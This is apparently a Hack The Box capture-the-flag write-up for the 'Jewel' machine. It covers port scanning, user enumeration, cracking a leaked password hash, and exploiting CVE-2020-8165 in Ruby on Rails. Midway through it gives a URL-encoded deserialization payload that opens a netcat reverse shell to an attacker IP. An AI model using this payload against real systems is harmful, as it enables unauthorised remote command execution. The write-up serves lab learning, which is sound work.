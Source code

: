 ```yaml
---
published: false
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">

<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I could break Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<pre>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
                                                                </pre>
<p>The password is "spongebob" we cracked it,if you remember </p>                                                     <p>Let`s upgrade our shell </p>
<img src="https://i.ibb.co/wJVwsXx/ssh.jpg" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">
    
                                                                
